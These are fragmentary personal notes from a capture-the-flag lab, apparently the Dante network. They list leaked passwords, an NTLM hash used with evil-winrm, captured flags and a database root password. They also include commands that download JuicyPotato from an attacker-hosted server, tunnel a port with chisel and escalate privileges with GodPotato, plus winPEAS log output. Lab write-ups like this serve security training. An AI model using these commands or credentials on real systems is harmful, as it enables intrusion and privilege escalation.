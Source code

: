 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
` dante123,Pass123,Pass123!,password,test,123`

-> for access : `evil-winrm -i 172.16.1.102 -u Administrator -H c55ed3c3d34c4576bcd33c76420be934`

### Flag
1. `DANTE{U_M4y_Kiss_Th3_Br1d3}`
2. `DANTE{D0nt_M3ss_With_MinatoTW}`

## External
### Enumeration
![](https://i.imgur.com/VOTf0lS.png)
https://www.nmmapper.com/st/exploitdetails/48552/42799/online-marriage-registration-system-10-remote-code-execution/
![](https://i.imgur.com/9ZZxoZL.png)
### Gaining Access
![](https://i.imgur.com/47B8ZqC.png)
![](https://i.imgur.com/4OcjmEX.png)
## Internal
### Enumeration
```
define('DB_HOST','localhost');
define('DB_USER','root');
define('DB_PASS','Welcome1!');
define('DB_NAME','omrsdb');


iwr -uri http://172.16.1.100:9090/JuicyPotato.exe -outfile potato.exe

client 172.16.1.100:8008 R:3306:127.0.0.1:3306 

GodPotato -cmd "cmd /c type C:\Users\Administrator\Desktop\flag.txt"

�����͹ PowerShell events - script block logs (EID 4104) - searching for sensitive data.

   User Id         :        S-1-5-21-3089243881-3525850343-252262830-500
   Event Id        :        4104
   Context         :        if ($null -ne $password) {
}
WhatIf = $check_mode
ConvertTo-SecureString -String $password -AsPlainText -Force
}
Try {
Expand-Archive -Path $src @expand_params
   Created At      :        7/18/2022 10:24:22 PM
   Command line    :        ConvertTo-SecureString -String $password -AsPlainText -Force

   =================================================================================================

   User Id         :        S-1-5-21-3089243881-3525850343-252262830-500
   Event Id        :        4104
   Context         :        if ($null -ne $username) {
$credential = $null
}
ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName PSCredential -ArgumentList $username, $secPassword
}
# This must be set after the module spec so the validate-modules sanity-test can get the arg spec.
   Created At      :        7/18/2022 10:21:45 PM
   Command line    :        ConvertTo-SecureString -String $password -AsPlainText -Force

   =================================================================================================

   User Id         :        S-1-5-21-3089243881-3525850343-252262830-500
   Event Id        :        4104
   Context         :        if ($null -ne $username) {
$credential = $null
}
ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName PSCredential -ArgumentList $username, $secPassword
}
# This must be set after the module spec so the validate-modules sanity-test can get the arg spec.
   Created At      :        7/18/2022 10:21:29 PM
   Command line    :        ConvertTo-SecureString -String $password -AsPlainText -Force
```
### Gaining Access
![](https://i.imgur.com/9fNOswL.png)
![](https://i.imgur.com/4M5qOBL.png)


### Maintaining Access


# Random Notes